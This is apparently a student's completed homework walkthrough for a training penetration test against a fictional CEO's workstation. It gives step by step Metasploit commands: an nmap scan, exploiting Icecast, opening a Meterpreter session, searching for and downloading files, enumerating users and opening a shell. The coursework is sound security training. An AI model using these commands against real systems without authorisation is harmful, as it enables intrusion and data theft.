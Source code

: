 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `secretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

### Setup

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

-  If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.

#### Scope

- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.

- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.

- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.

- Since you've already been provided access to the network, OSINT won't be necessary.


#### Deliverable

My findings are documented in the following Report:

- [Report.docx](Report/Report.docx)

### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: nmap -sV 192.168.0.20
 ![Nmapcommand](images/Nmap.PNG)

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

   - Run the SearchSploit commands to show available Icecast exploits.

     > Answer: searchsploit command in Kali
     ![searchsploit](images/searchsploit.PNG)
     2.
3. Now that we know which exploits are available to us, let's start Metasploit:

   - Run the command that starts Metasploit:

     > Answer: msfconsole
     ![msfconsole](images/msfconsole.PNG)

4. Search for the Icecast module and load it for use.

   - Run the command to search for the Icecast module:

     > Answer: search icecast
     ![msfconsole-search](images/msfconsole-search.PNG)


   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: use 0
     ![use](images/use.PNG)


5. Set the `RHOST` to the target machine.

   - Run the command that sets the `RHOST`:

     > Answer: set RHOSTS 192.168.0.20
 ![set-rhosts](images/set-rhosts.PNG)
6. Run the Icecast exploit.

   - Run the command that runs the Icecast exploit.

     > Answer: run
 ![run](images/run.PNG)
   - Run the command that performs a search for the `secretfile.txt` on the target.

     > Answer: `search -f *secretfile*.txt`
  ![secretfile location](images/secret-filepath.PNG)
 7. You should now have a Meterpreter session open.

    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: `search -f *recipe*.txt`
  ![recipe filepath](images/recipe-filepath.PNG)

    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      > Answer: download
   ![download](images/download.png)
   ![kali](images/kali-ls.PNG)

8. You can also use Meterpreter's local exploit suggester to find possible exploits.


   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
![suggester](images/suggester.PNG)

#### Bonus


A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer: run post/windows/gather/enum_all_logged_on_users
 ![Enumerate all logged in users](images/enumerate-loggedusers.PNG)

B. Open a Meterpreter shell and gather system information for the target.

  > Answer: shell
  ![shell](images/shell.PNG)

C. Run the command that displays the target's computer system information:

   > Answer: systeminfo
![systeminfo](images/systeminfo.PNG)


---
